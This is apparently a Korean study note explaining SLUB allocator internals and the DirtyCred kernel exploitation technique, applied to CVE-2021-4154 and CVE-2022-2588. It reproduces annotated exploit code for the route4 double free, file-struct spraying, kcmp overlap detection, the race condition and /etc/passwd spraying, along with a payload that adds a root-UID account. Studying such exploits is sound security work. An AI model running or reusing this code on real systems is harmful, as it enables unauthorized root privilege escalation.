    - kmem_cache
        
        ```cpp
        struct kmem_cache {
        	struct kmem_cache_cpu __percpu *cpu_slab;
        	/* Used for retriving partial slabs etc */
        	unsigned long flags;
        	unsigned long min_partial;
        	int size;		/* The size of an object including meta data */
        	int object_size;	/* The size of an object without meta data */
        	int offset;		/* Free pointer offset. */
        #ifdef CONFIG_SLUB_CPU_PARTIAL
        	int cpu_partial;	/* Number of per cpu partial objects to keep around */
        #endif
        	struct kmem_cache_order_objects oo;
        
        	/* Allocation and freeing of slabs */
        	struct kmem_cache_order_objects max;
        	struct kmem_cache_order_objects min;
        	gfp_t allocflags;	/* gfp flags to use on each alloc */
        	int refcount;		/* Refcount for slab cache destroy */
        	void (*ctor)(void *);
        	int inuse;		/* Offset to metadata */
        	int align;		/* Alignment */
        	int reserved;		/* Reserved bytes at the end of slabs */
        	int red_left_pad;	/* Left redzone padding size */
        	const char *name;	/* Name (only for display!) */
        	struct list_head list;	/* List of slab caches */
        #ifdef CONFIG_SYSFS
        	struct kobject kobj;	/* For sysfs */
        	struct work_struct kobj_remove_work;
        #endif
        #ifdef CONFIG_MEMCG
        	struct memcg_cache_params memcg_params;
        	int max_attr_size; /* for propagation, maximum size of a stored attr */
        #ifdef CONFIG_SYSFS
        	struct kset *memcg_kset;
        #endif
        #endif
        
        #ifdef CONFIG_SLAB_FREELIST_HARDENED
        	unsigned long random;
        #endif
        
        #ifdef CONFIG_NUMA
        	/*
        	 * Defragmentation by allocating from a remote node.
        	 */
        	int remote_node_defrag_ratio;
        #endif
        
        #ifdef CONFIG_SLAB_FREELIST_RANDOM
        	unsigned int *random_seq;
        #endif
        
        #ifdef CONFIG_KASAN
        	struct kasan_cache kasan_info;
        #endif
        
        	struct kmem_cache_node *node[MAX_NUMNODES];
        };
        ```
        
    
- kmem_cache_cpu
    - CPU 로컬 캐시다. 각 CPU마다 하나씩 존재하며, 가장 빠른 할당 경로다.
    - freelist
        - 현재 CPU에서 바로 사용할 수 있는 free object들의 단일 연결 리스트
        - 리스트는 객체 내부의 freelist pointer(FP)를 통해 연결됨
        - 이 단계에서는 lock을 사용하지 않음

SLUB Allocator의 할당 흐름은 아래와 같다.

1. kmem_cache_alloc 호출
2. 현재 CPU의 kmem_cache_cpu 확인
3. freelist가 NULL이 아니면 freelist의 첫 객체 반환
4. freelist 포인터를 다음 객체로 갱신

이 과정에서 struct page나 kmem_cache_table은 건드리지 않는다. 

- freelist pointer(FP)의 위치
    - FP는 payload 내부 offset에 위치해 있다.
    - FP는 객체가 free 상태일 때만 의미 있.
    - 할당된 상태에서는 payload 일부로 덮어써진다.
    - freelist는 객체 내부 메모리를 재사용하는 방식이다.

UAF 상황에서는 다음이 가능해진다.

- free된 객체의 fp가 남아있음
- 객체가 재할당되려면 payload로 해석됨
- dangling pointer가 의미있는 데이터 구조를 가리킬 수 있음.

## 실제 Exploit에서 DirtyCred가 쓰이는 지점

1. 일단 UAF 발생
2. free 이후 struct file또는 struct cred가 존재하는지 spray한다
3. kcmp, reference count로 overlap을 확인한다.
    - 서로 다른 객체지만 같은 물리 메모리 주소를 공유하는 상태 : overlap
    - 논리적으로 a,b 따로 존재하지만 같은 메모리를 동시에 참조. 이는 kcmp로 overlap을 확인할 수 있다.
    
    [전개 흐름]
    
    - spray로 여러 file 객체 생성
    - dangling pointer가 가리킬 가능성이 있는 fd 생성
    - kcmp로 두 fd의 file object 비교
    - 결과가 동일하면 overlap 성공
4. dangling pointer로 write또는 state change를 수행한다. 

### DirtyCred 대전제

1. 커널 객체가 free된다
2. 그런데 그 객체를 가리키는 포인터가 여전히 사용된다
3. free된 slot이 **다른 의미의 객체로 재할당**된다

→ 이 상태가 바로 **dangling pointer + overlap**이다.

이를 만족하려면 UAF나 Double Free 

이걸로 결국 만들어진 dangling pointer가 유지되는 동안 allocator가 그 slot에 다른 의미의 객체를 올리도록 유도한다. 

### DirtyCred를 활용한 CVE-2021-4154

[GitHub - Markakd/CVE-2021-4154: CVE-2021-4154 exploit](https://github.com/Markakd/CVE-2021-4154)


- file object for /tmp/x
    
    공격자가 **쓰기 가능한 일반 파일**로 연 file의 struct file
    
- fs_context object
    
    취약점으로 인해 **UAF가 발생하는 객체**, dangling pointer의 출발점
    
- freed object
    
    fs_context가 free된 뒤 남은 **비어 있는 slab slot**
    
- file object for /etc/passwd
    
    권한이 필요한 **privileged file**의 struct file
    

공격자가 /tmp/x를 open하면 커널은 struct file 객체를 할당한다.

이후 CVE-2021-4154를 트리거하면 fs_context 관련 객체가 free되지만,

fs_context 내부에서 참조하던 포인터는 제거되지 않아 dangling pointer가 남는다.

이 과정은 write가 진행 중인 상태에서 발생하여 time-of-use window를 확장한다.

fs_context와 struct file은 실제 크기는 다르지만 SLUB의 size rounding에 의해

동일한 kmalloc-192 cache를 사용한다.

이후 공격자가 /etc/passwd를 open하면 allocator는 최근에 free된 kmalloc-192 slot을 재사용하여

새로운 struct file(/etc/passwd)을 할당한다.

이로 인해 dangling pointer는 여전히 fs_context 또는 이전 file을 가리킨다고 믿지만,

실제 메모리에는 /etc/passwd에 대한 struct file이 존재하게 된다.

결과적으로 write는 /tmp/x를 대상으로 시작했지만,

완료 시점에는 /etc/passwd에 대해 수행된다.

### DirtyCred를 활용한 CVE-2022-2588

[GitHub - Markakd/CVE-2022-2588: exploit for CVE-2022-2588](https://github.com/Markakd/CVE-2022-2588)

1. UAF를 통해 file overlap 생성 

```jsx
// exploit() 함수 내부

// UAF 트리거: route4 필터 객체 double free
add_tc_(sockfd, 0, 0, 0, NLM_F_EXCL | NLM_F_CREATE);    // route4 객체 할당
add_tc_(sockfd, 0x11, 0x12, 0, NLM_F_CREATE);           // 첫 번째 free
add_tc_(sockfd, 0x11, 0x13, 0, NLM_F_CREATE);           // double free!

// 첫 번째 파일 스프레이: 해제된 메모리를 file 구조체로 채우기
for (int i = 0; i < spray_num_1; i++) {  // 약 2000개
    pin_on_cpu(i % cpu_cores);
    fds[i] = open("./data2", 1);  // data2 파일 열기 (쓰기 가능)
    assert(fds[i] > 0);
}

// 두 번째 파일 스프레이: 같은 메모리에 다른 파일 할당
for (int i = 0; i < spray_num_2; i++) {  // 약 4000개
    pin_on_cpu(i % cpu_cores);
    fd_2[i] = open("./uaf", 1);  // uaf 파일 열기 (심볼릭 링크)
    assert(fd_2[i] > 0);
    
    // ★ 핵심: kcmp로 같은 struct file을 가리키는지 확인
    // 다른 fd는 다른 ruct file을 가리킴. UAF로 같은 메모리를 사용하면 같은 struct file 공유
    
    for (int j = 0; j < spray_num_1; j++) {
        **if (syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, 
                    fds[j], fd_2[i]) == 0) {**
            printf("found overlap, id : %d, %d\n", i, j);
            overlap_a = fds[j];   // data2를 가리키는 fd
            overlap_b = fd_2[i];  // uaf를 가리키는 fd
            // ★ 두 fd가 같은 struct file 구조체를 공유!
```

1. 레이스 컨디션 설정

```jsx
// 두 개의 스레드 생성
            pthread_t pid, pid2;
            pthread_create(&pid, NULL, slow_write, NULL);   // 느린 쓰기 스레드
            pthread_create(&pid2, NULL, write_cmd, NULL);   // 데이터 주입 스레드
```

Thread1 : 느린 쓰기로 파일 열린 상태로 유지

```jsx
void *slow_write() {
    printf("start slow write\n");
    int fd = open("./uaf", 1);  // uaf 파일 열기
    
    // ★ 대용량 메모리 준비: 약 600MB
    unsigned long int addr = 0x30000000;
    int offset;
    for (offset = 0; offset < 0x80000 / 20; offset++) {
        void *r = mmap((void *)(addr + offset * 0x1000), 0x1000,
                       PROT_READ | PROT_WRITE, 
                       MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    }
    
    void *mem = (void *)(addr);
    memcpy(mem, "hhhhh", 5);
    
    // ★ iovec 20개 = 약 12GB 쓰기 준비
    struct iovec iov[20];
    for (int i = 0; i < 20; i++) {
        iov[i].iov_base = mem;
        iov[i].iov_len = offset * 0x1000;
    }
    
    run_write = 1;  // 시그널 전송
    
    // 12GB 쓰기 시작
    if (writev(fd, iov, 20) < 0) {
        perror("slow write");
    }
    
    printf("write done, spent %f s\n", spent);
    run_write = 0;
}
```

Thread2 : 페이로드 주입

```jsx
void *write_cmd() {
    // ★ /etc/passwd에 추가할 내용 준비
    char *overwrite = "user:$1$user$k8sntSoh7jhsc6lwspjsU.:0:0:root:/root:/bin/bash\n";
    struct iovec iov = {.iov_base = content, .iov_len = strlen(content)};
    
    // slow_write가 시작될 때까지 대기
    while (!run_write) {}
    
    run_spray = 1;  // 파일 스프레이 시작 시그널
    
    // ★ overlap_a(data2 fd)에 쓰기 → 실제로는 같은 struct file 공유
    if (writev(overlap_a, &iov, 1) < 0) {
        printf("failed to write\n");
    }
    printf("should be after the slow write\n");
}
```

1. DirtyCred

```jsx
// exploit() 함수로 돌아와서...
            
            while (!run_spray) {}  // write_cmd가 데이터 주입할 때까지 대기
            
            // 두 fd를 닫기!
            close(overlap_a);  // data2 fd 닫기
            close(overlap_b);  // uaf fd 닫기
            printf("closed overlap\n");
            
            usleep(1000 * 100);
            
            // /etc/passwd를 대량으로 열기!
            int spray_num = 4096;
            write(pipe_file_spray[0][1], &spray_num, sizeof(int));
```

File Spray process

```jsx
// run_exp() 함수의 자식 프로세스
if (fork() == 0) {
    adjust_rlimit();
    int spray_num = 0;
    
    // 메인 스레드로부터 시그널 받기
    if (read(pipe_file_spray[0][0], &spray_num, sizeof(int)) < sizeof(int)) {
        err(1, "read file spray");
    }
    
    printf("got cmd, start spraying %s\n", target);  // target = "/etc/passwd"
    spray_num = 4096;
    
    // /etc/passwd를 4096번 열기
    if (fork() == 0) {
        for (int i = 0; i < spray_num; i++) {
            pin_on_cpu(i % cpu_cores);
            open(target, 0);  // /etc/passwd 읽기 모드로 열기
        }
    }
    
    for (int i = 0; i < spray_num; i++) {
        pin_on_cpu(i % cpu_cores);
        open(target, 0);  // 총 8192번 /etc/passwd 열기
    }
    printf("spray done\n");
```

### /etc/passwd를 open할 수 있는가?

리눅스에서 /etc/passwd를 살펴보면

```cpp
-rw-r--r-- 1 root root ... /etc/passwd
```

일반 유저도 read 즉, open("/etc/passwd", O_RDONLY)가 가능해진다. 

근데 커널이 write을 수행할 떄 어떤 권한으로 write가 시작됐는지를 보장하지 않는다. 

- write가 시작될 때의 객체: `/tmp/x`
- write가 끝날 때의 객체: `/etc/passwd`
- 하지만 커널은 여전히 `/tmp/x`에 쓰고 있다고 믿음

### spray를 하는 이유

free된 kmalloc-192 slot은 바로 재사용될 수 있고, 한동안 freelist에 남아있을 수 있따.

하지만 spray를 하면 같은 cache에서 대량의 할당 요청이 들어오고, allocator는 freelist의 slot을 빠르게 소모한다. 그럼 방금 free된 slot이 재사용될 확률이 급격히 올라간다. 

DirtyCred는 struct file, struct cred, struct pipe_buffer처럼 의미 있는 객체를 원한다. spray를 한후 kcmp로 dangling fd와 비교해서 같은 파일을 overlap했는지 확인한다. 

즉, spray는 overlap을 생성하고 overlap을 탐지한다.